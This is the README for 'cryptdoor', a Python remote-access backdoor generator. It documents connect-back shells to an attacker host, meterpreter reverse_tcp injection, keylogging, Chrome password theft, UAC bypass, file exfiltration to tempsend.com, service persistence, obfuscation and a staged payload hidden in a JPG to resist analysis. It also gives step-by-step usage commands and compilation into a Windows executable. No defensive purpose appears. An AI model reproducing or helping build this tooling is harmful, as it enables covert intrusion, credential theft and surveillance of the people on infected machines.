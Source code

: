 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is implemented for windows using pyHook.
All traffic apart from traffic meterpreter makes are encrypted with AES.
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).  

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port to connect back to.
          -e EXPIRE, --expire EXPIRE
                        Payload Life: h=hour, d=day, w=week, m=month
          -u CUSTOMURL, --customurl CUSTOMURL
                        Host the generated jpg at this url.
          -a, --persistence     Enable Auto-persistence.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence:

        ./cryptdoor.py -i host -p port -a

host and port refer to the host and port of the listening server (attacker).
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd promt and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Advanced Compilation
=========

You can compile the exe with optimized python files with:

        python -O C:\Python27\Scripts\pyinstaller-script.py -F -w backdoor.py

If you want to upx pack the final exe to decrease final size include tools/upx.exe in the same directory as backdoor.py when you compile with pyinstaller.

Proxies
=========  

NOTE: Proxying is temporarily disabled. Will be back soon.

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate

Staged payload
=========
The backdoor payload can be hosted on tempsend.com or at a custom url and downloaded and exec'ed at runtime by the 
backdoor.py script.  
This means the actual backdoor code is not included in the final backdoor.py and is therefore further resistant to 
analysis.
The code will be hidden in a jpg that remains valid so it can be viewed.
The key for decrypting the payload code is kept in the downloader, so if anyone finds it online, they will not be able
to decrypt it.